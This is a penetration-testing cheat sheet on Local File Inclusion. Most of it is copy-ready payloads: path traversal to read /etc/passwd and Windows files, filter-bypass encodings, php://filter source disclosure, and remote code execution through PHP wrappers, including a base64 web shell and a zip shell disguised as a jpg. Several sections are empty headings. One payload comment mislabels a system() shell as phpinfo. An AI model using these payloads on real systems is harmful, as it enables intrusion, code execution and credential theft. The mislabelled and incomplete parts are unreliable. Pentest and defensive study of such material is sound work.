 # X - Local File Inclusion

The File Inclusion vulnerability allows for the include of a file locally
present on the server, usually exploiting a "dynamic file inclusion" mechanisms
implemented in the target application.  

The vulnerability occurs due to the use of user-supplied input without proper
validation.

### RECON

Look for scripts which take filenames as parameters, such as the following
examples:

```
http://vulnerable_host/preview.php?file=example.html
http://vulnerable_host/?op=home
```

Try to access common files, such as:

```
# Linux

# Windows
WINDOWS\System32\drivers\etc\hosts
```

<br />
### EXPLOIT - File access

###### Basic

Typical proof-of-concept for basic LFI would be:

```
# Linux
?file=../../../../../../../../../../etc/passwd

# Windows
?file=..\..\..\..\..\..\..\..\..\..\WINDOWS\System32\drivers\etc\hosts
```

###### Null Byte
In some cases, the server will will include ".php” at the end of the requested
file.
Such mechanisms can be bypassed using the line terminator char *null byte*:

```
# Linux
?file=../../../../../../../../../../etc/passwd%00

# Windows
?file=..\..\..\..\..\..\..\..\..\..\WINDOWS\System32\drivers\etc\hosts%00
```

###### Double encoding
Encoding parameters twice in hexadecimal format can be leveraged to bypass
security controls such as blacklist filters.  
For example, the '.' (*dot*) character represent %2E in hexadecimal
representation. When the % symbol is encoded again, its representation in
hexadecimal code is %25. The result from the double encoding process is %252E.

```
# Linux
?file=%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd

# Windows
?file=%252e%252e%255c%252e%252e%255c%252e%252e%255cWINDOWS%255cSystem32%255cdrivers%255cetc%255chosts
```

###### Filter bypass
Some blacklist filter may be implemented and restrict the usage of "../".  
Those kind of filter may be passed using the following payloads:

```
# Linux
?file=....//....//etc/passwd
?file=..///////..////..//////etc/passwd

# Windows
?file=....\\....\\....\\....\\....\\....\\WINDOWS\System32\drivers\etc\hosts%00
?file=..\\\\\\..\\\\\\..\\\\\\..\\\\\\..\\\\\\WINDOWS\System32\drivers\etc\hosts%00
```

###### PHP wrappers

**php://filter**  
This PHP wrapper can be used to access the source code of the page:

```
# Base64 encoding
?page=php://filter/convert.base64-encode/resource=config.php

# rot13 encoding
?page=php://filter/read=string.rot13/resource=config.php
```

<br />
### EXPLOIT - RCE

###### File upload


###### PHP wrappers

**data**  
The PHP *data://* wrapper allows for the injection and execution of PHP code
given in parameter:

```bash
# <?php phpinfo(); ?>
?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8%2B

# <?php system($_GET['cmd']); ?>
?page=data://text/plain;base64,PD8gcGhwIHN5c3RlbSgkX0dFVFsnY21kJ10pOyA%2fPg%3d%3d

# XSS (alert(1))
?page=data:application/x-httpd-php;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+
```

**expect**  
The PHP *expect://* wrapper allows execution of system commands but is not
enabled by default.

```bash
php?page=expect://whoami
```

**input**  
The PHP *input://* wrapper allows for the injection and execution of PHP code
given in the POST request body:

```bash
POST .../?page=php://input&cmd=whoami
...
<?php system($_GET['cmd']); ?>
```

**zip / phar**  
The *zip://* and *phar://* wrappers can be used to achive code execution if a
zip or phar archive can be upload to the server:
```bash
# <pre><?php system($_GET['cmd']); ?></pre>
echo "<pre><?php system(\$_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;   
# As the file extension does not matter, a file with a jpg extension can be uploaded
mv payload.zip shell.jpg;    

# zip://<PATH_TO_UPLOADED_FILE>%23<FILE_INSIDE_ZIP>&cmd=<CMD>
?page=zip://shell.jpg%23payload&cmd=whoami
?page=zip://shell.jpg%23payload.php
```

###### Log files contamination

###### PHP sessions

###### /proc/self/

<br />
### POST-EXPLOIT

###### Linux files

the following Linux files can be of interest:
```
# System information
/etc/issue

# System users account information
/etc/passwd

# System users account hashed password
/etc/shadow

# System grouops information
/etc/group


/etc/hosts
```

--------------------------------------------------------------------------------

### Resources

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion%20-%20Path%20Traversal  

https://blog.clever-age.com/fr/2014/10/21/owasp-local-remote-file-inclusion-lfi-rfi/  

https://highon.coffee/blog/lfi-cheat-sheet/  

https://secure.php.net  

https://medium.com/@Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601  
